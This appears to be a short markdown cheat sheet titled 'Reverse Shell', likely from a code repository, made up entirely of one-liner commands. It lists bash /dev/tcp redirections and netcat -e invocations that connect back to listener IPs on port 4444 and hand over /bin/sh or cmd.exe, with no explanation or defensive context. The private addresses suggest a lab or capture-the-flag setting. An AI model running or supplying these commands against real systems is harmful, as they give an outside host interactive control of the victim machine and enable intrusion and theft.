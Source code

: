 # Reverse Shell

```
bash -i >& /dev/tcp/192.168.11.146/4444 0>&1
```

```
bash -c 'bash -i >& /dev/tcp/10.10.16.2/4444 0>&1'
```

```
nc -nv 10.10.14.30 4444 -e /bin/sh
nc -nv 10.10.14.30 4444 -e cmd.exe
```

